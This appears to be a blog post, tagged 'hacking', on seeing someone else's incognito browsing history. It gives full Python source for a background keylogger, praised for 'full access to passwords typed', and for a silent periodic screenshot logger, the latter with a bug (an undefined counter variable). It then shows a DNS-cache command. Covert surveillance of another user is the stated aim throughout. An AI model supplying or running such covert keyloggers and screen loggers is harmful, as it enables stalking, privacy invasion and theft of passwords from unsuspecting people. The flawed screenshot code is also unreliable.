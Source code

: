 ```yaml
---
title: See Incognito Browsing History
category: hacking
---
```


In contrast to what most people think, seeing the history from an incognito session is not impossible. Actually, it is quite easy if you do it the right way. In this post I will show you some methods to achieve this goal, some that require software and one that you can do right now.

## With software

For this section I will write some Python scripts to get the history of the browser, so I recommend you to install it from here. However, if you do not want to write your own programs, you can also download my programs’ binaries for Windows x64 (not available yet).

### Using a keylogger

One of my favorite methods involves the use of a keylogger. A keylogger is a program that records every key you press in your keyboard, so, using this type of software you can see every website that the user requested. Additionaly, you can also see the credentials typed in the computer.

Let’s start by installing required python modules. First, you need to open your terminal (if you are on Windows you only have to write ‘cmd’ on your search bar and press enter). After that, write the following lines:

```
pip install pynput
```

And press Enter. Once the module was properly installed, you can start writing the code. Create a file called keylogger.pyw and add the following lines to it:

```
from pynput.keyboard import Key,Listener

def press_key(key):
    with open('log.txt','a') as f:
        f.write(str(key) + ' ')

def release_key(key):
    if key == Key.f12:
        return False

with Listener(on_press = press_key, on_release = release_key) as listener:
    listener.join()
```

Now that the program is done you can execute it directly or by typing the following line into the terminal:

```
pythonw keylogger.pyw
```

It will run in the background and if you need to stop it simply press F12 key. The output will be saved in a file called log.txt stored in the same folder as your program.

#### Advantages

- Very precise (only few false-positives)
- Full access to passwords typed
- Low CPU load (runs smoothly)

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website

### Using a “screenshoter”

Another program that allows you so see what sites the user visited consists in taking pictures of the computer screen from time to time. So, you will get a screenshot of the site being visited by the user.

As before, we will need a specific module, so let’s start by importing it. Open your terminal and write the following in there:

```
pip install pyscreenshot
```

By the time the module is correctly installed, you can create the file screenshoter.pyw and start writing your code. Unlike the code used to make our keylogger, you must change this program to adjust to your necessities. First, you need to figure out the delay (in seconds) between the screenshots that you prefer and then add it to the code. I will use 60 (a screenshot every minute).

```
import pyscreenshot
import time

if __name__ == '__main__':
    while True:
        img = pyscreenshot.grab()
        img.save('Screenshots/screenshot' + str(num) + '.png')
        time.sleep(60) #change the value 60 to whatever you want
```

After writing the code, you must also create a folder called ‘Screenshots’ in the same directory as your program to store all the pictures taken.

You can execute your script by clicking it or by typing the following in the command line:

```
pythonw screenshoter.pyw
```

#### Advantages

- Direct access to computer screen
- Images are easily understood

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website
- Can store huge amounts of images
- The user can access a website for only a few seconds and you will not be able to see it

## Without Software

### Accessing DNS cache

What is DNS? The main function of DNS is to translate domain names into IP Addresses. So, what is DNS cache? It is the way that our computers use to temporarily store it, with the purpose of delivering the websites faster to the user.

To access it, you need to start your terminal (‘cmd’ on Windows) and type the following command into it:

```
ipconfig /displaydns
```

The result should be similar to this:

![Output](/images/incobrow1.png)

As you can see, the only part that really matters to us is the “Record Name”, so, we should implement an output filter. Let’s try the next command, which finds the record name of each entry:

```
ipconfig /displaydns | findstr /C:"Record Name"
```

![Output](/images/incobrow2.png)

Much easier to read, don’t you think? By using this command you should be able to see which sites the user has recently viewed.

#### Advantages

- No need of additional software

#### Disadvantages

- The records are temporary
- Results contain both the domain of the website viewed and the domains of all external references on the page (if you access a site that contains a image from other site, the DNS cache will store both, making it difficult to decide which is the website accessed by the user)